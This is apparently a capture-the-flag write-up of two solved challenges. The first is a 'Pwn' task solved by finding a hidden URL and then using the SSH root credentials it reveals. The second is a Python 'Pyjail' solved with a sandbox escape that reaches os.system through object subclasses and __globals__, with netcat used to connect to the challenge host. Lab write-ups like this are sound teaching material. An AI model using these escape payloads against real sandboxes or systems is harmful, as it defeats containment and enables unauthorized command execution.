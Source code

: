 ### Pwn

#### Not something you might like
- Points: 288
- Description: `I codded something irrelevant the other day, well nothing crashed, sometimes life's okay. We'll all float on, anyways.`

Resources/Scripts:
- [Challenge File](./files/PWN/float_on.c)

Solution:
- By understading the code we can find that there is a website link in the challenge file.
 ![https://imgur.com/a/yN55nsv](https://i.imgur.com/vtdSkwM.png)
- Website link: `hackersvilla.xyz/flag.txt`
- I got this response:
```
KYC{YOUcantS33me}

root@167.172.66.188

The most powerfull thing in this world is shell!
```
- `KYC{YOUcantS33me}` is not the flag.
- We are given the ssh host and user and the password is `YOUcantS33me`
- Login with the creds and open `flag.txt`, you'll get the flag.
 ![https://imgur.com/a/nyiZOnP](https://i.imgur.com/W7mGpKn.png)
- Flag: `KYC{john_cena}`

### Sandbox

#### Pyjail
- Points: 250
- Description: `Break the jail :)`

Resources/Scripts:
- [Link](https://example.com)

Solution:
- We are given a sandboxed python shell where we can't import any modules.
- We are only allowed to use already imported builtin modules which are not blacklisted.
- By using this command we can list all the classes and functions in the module.
```
print(().__class__.__bases__[0].__subclasses__())
```
- We can see that there is a `_wrap_close` class in the `os` module.
- The parent of this class is `os`.
- By using this, we'll execute commands.
- First we'll get the index of `_wrap_close` class in the list but using this command:
```
print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
```
- Then we can execute os commands by using this command:
```
print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
```
- We can see that there is a `Flag.txt` file.
- Now we can read the file by using this command:
```
print(open('Flag.txt').read())
```
- Complete Commands:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc 23.23.44.100 5000
```
